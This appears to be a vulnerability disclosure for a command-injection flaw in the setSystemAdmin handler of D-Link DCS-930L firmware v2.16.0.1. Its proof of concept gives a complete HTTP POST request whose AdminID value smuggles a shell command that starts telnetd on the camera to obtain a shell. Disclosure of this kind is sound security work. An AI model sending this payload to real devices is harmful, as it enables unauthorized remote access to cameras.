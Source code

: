 **Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  v2.16.0.1

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

A command injection vulnerability exists in the setSystemAdmin function of the alphapd binary in D-Link DCS-930L firmware v2.16.0.1. The AdminID parameter is directly taken from user input and inserted into shell commands without proper sanitization, allowing remote attackers to execute arbitrary OS commands via crafted requests. Vulnerable devices may include D‑Link DCS‑930L units running firmware v2.16.0.1 or earlier.


---
### **Vulnerability Details**

![image-1](./img/1.png)
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
Just set `AdminID` as **';telnetd;#** , and the device will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 330
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=539a63634c9a634a9a63cfc3635b0563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563&SessionKey=1325376377&ConfigSystemAdmin=Save
```

Get a shell!
![image-2](./img/2.png)
